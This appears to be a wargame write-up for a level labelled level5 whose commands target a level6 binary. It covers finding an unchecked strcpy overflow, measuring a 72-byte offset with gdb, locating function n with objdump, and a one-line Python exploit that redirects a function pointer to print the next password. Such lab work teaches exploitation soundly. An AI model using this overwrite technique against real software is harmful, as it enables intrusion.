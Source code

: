 # level5

- Three functions
    - `m` : prints "Nope"
    - `n` : prints next level password
    - `main` call the function `m`  pointed by `ppcVar1` 


- A buffer overflow vulnerability is present:
    ```c
    strcpy(buffer, argv[1]);
    ```
    - 64 bytes long are allocated for the buffer.
    - User's input is copied into the buffer without any boundary checking.

## Goal
Overflow to overwrite the content of the function pointer `ppcVar1` to point to the function `n` instead of `m`.

## Step 1
Find the offset to overwrite the function pointer `ppcVar1` thanks to the [pattern creator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

```console
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

`0x41346341` is at the 72th position in the pattern.

We understand that the `strcpy` overwrite the function pointer at the 72th position.

### Solution

Put the address of the function `n` at the 72th position.

## Step 2
Find the address of the function `n`:

```console
objdump -d level6 | grep n
08048454 g     F .text	00000014              n
```

`0x08048454` is the address of the function `n`.

## Exploit
```bash
/home/user/level6/level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')
```